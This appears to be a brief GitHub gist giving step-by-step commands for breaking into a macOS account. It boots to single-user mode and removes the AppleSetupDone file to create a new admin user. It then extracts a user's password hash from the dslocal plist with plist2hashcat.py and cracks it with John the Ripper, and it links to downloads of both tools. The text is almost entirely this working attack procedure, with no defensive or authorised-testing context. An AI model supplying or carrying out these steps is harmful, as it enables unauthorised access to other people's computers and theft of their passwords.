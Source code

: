 # links to download
JTR -- https://www.openwall.com/john/k/john-1.9.0-jumbo-1.tar.gz
Hashcat -- https://gist.github.com/VFTS102/cdeead0bbf9ba63a3dbdb929792ec33d#file-plist2hashcat-py
# how to view
view in raw to get commands right cuz github doesn't give a crap about what goes on what line :)
# new admin user in single user mode
mount -uw /
rm /var/db/AppleSetupDone
*reboot*
# execute in terminal with root access
cd path/to/JTR/src
./configure && make
cd path/to/hashcat
sudo ./plist2hashcat.py /var/db/dslocal/nodes/default/users/*USER*.plist
save output to sha-512.txt in /path/to/JTR/run
cd path/to/JTR/run
move password list into ./password.lst in JTR/run (just copy the text)
./john --format=PBKDF2-HMAC-SHA512 sha-512.txt
